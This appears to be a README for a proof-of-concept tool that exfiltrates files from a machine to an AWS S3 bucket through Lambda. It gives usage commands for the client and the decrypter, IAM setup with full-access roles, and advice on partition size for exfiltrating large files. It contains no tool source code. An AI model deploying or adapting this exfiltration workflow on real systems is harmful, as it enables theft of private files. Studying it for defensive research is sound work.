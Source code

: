 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works  

![StandaloneClientGif](standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts

#### Partitions
Partition size is by default 100 bytes, this can be changed by accessing standaloneClient_template.py and modifiying the value. This could be helpful when exfiltrating large files, as the time it would take to exfiltrate 1GB of data with 100B partitions will be really significant.

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
